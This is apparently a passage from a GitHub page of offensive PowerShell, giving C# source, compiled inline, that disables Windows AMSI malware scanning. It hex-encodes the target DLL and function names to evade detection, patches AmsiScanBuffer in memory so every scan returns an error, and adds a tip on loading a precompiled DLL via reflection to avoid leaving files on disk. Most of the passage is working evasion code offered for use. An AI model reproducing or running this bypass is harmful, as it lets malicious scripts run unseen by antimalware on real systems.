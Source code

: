```powershell
            string hexbuffer = "41;6d;73;69;53;63;61;6e;42;75;66;66;65;72";
            string hexdllbuffer = "61;6d;73;69;2e;64;6c;6c";

            string buf1=FromHexBuffer(hexdllbuffer);
            string buf2=FromHexBuffer(hexbuffer);
            IntPtr Address = GetProcAddress(LoadLibrary(buf1), buf2);

            UIntPtr size = (UIntPtr)5;
            uint p = 0;

            VirtualProtect(Address, size, 0x40, out p);
            byte c1=0xB8,c2=0x80;

            Byte[] Patch = {c1, 0x57, 0x00, 0x07, c2, 0xC3 };
            IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
            Marshal.Copy(Patch, 0, unmanagedPointer, 6);
            MoveMemory(Address, unmanagedPointer, 6);

            return 0;
        }

        public static string FromHexBuffer(String hexdata)
        {
            string buffer="";
            String[] hexbuffersplit = hexdata.Split(';');
            foreach (String hex in hexbuffersplit)
            {
                int value = Convert.ToInt32(hex, 16);
                buffer+= Char.ConvertFromUtf32(value);
            }

            return buffer;
        }
    }
}
"@;

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp;
iex "[Bypass.AMSI$id]::Disable() | Out-Null"
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

Be aware that using `Add-Type` to compile on the fly `C#` in PowerShell code will touch the disk, dropping some `*.cs` to a temporary directory during the compilation phase. In order to avoid to touch disk we need to compile separately the DLL and load it via .NET Reflection:

```powershell
[Reflection.Assembly]::Load($AMSIBypassDLLBytes)
[Bypass.AMSI]::Disable()
```

For more information, you can refer to [Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/ScriptModification/Out-CompressedDll.ps1) by [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).
